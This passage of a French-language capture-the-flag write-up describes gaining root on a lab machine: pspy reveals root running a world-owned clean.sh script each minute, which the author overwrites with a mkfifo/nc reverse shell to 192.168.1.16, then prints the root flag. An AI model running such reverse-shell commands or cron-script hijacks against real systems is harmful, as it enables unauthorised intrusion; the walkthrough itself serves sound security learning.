 De retour côté shell je tente de lancer un petit **[linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)** pour voir les potentielles données intéressantes (SUID, cronjobs, passwords, configs ...). Mais rien de très probant.

J'ai appris il n'y a pas si longtemps que même s'il n'y avait rien dans les cron jobs il fallait quand même vérifier les services qui tournaient périodiquement sur la machine. Et effectivement ça m'a servi puisque qu'en utilisant **[pspy64](https://github.com/DominicBreuker/pspy)** on se rend compte que **root** lance toutes les minutes la commande suivante :

```bash
2020/08/06 18:57:01 CMD: UID=0    PID=2121   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh
```

Hm ... Le **clean** ne nous rappelle pas quelque chose ? Et oui ! L'interface web sur laquelle on peut exécuter des commandes. Il ne nous reste plus qu'à voir si nous disposons des droits suffisants pour modifier le fichier et y intégrer le code voulu :

```bash
ls -la /var/www/html/tmp/clean.sh

-rw-r--r-- 1 www-data www-data 84 Aug  6 19:07 /var/www/html/tmp/clean.sh
```

Bingo ! Il nous suffit de le modifier pour ajouter notre reverse shell qui sera exécuté par ``root`` :

```bash
echo 'rm /tmp/p; mkfifo /tmp/p; cat /tmp/p|/bin/sh -i 2>&1 | nc 192.168.1.16 5555 >/tmp/p' > clean.sh
```

On fait bien attention de ne pas utiliser le même **port** ni le même **fichier** dans /tmp pour éviter de casser notre connexion actuelle.

Après quelques secondes on obtient notre shell en tant que **root**.

Il nous suffit de récupérer le flag :

```bash
cat root.txt

flag{d9b368018e912b541a4eb68399c5e94a}
```

Cette box n'était pas très compliquée même si elle m'a fait chercher pendant quelques temps comment **bypass les espaces** dans l'URL ainsi que le service qui tournait en fond mais qui n'était pas dans les **cron jobs**.

Merci à [@over_jt](https://twitter.com/over_jt) pour cette box !

Les prochaines fois faîtes bien **attention** ! Si vous ne voyez pas de cron jobs actifs cela ne veut pas dire qu'il n'y a rien qui tourne **périodiquement** sur la machine !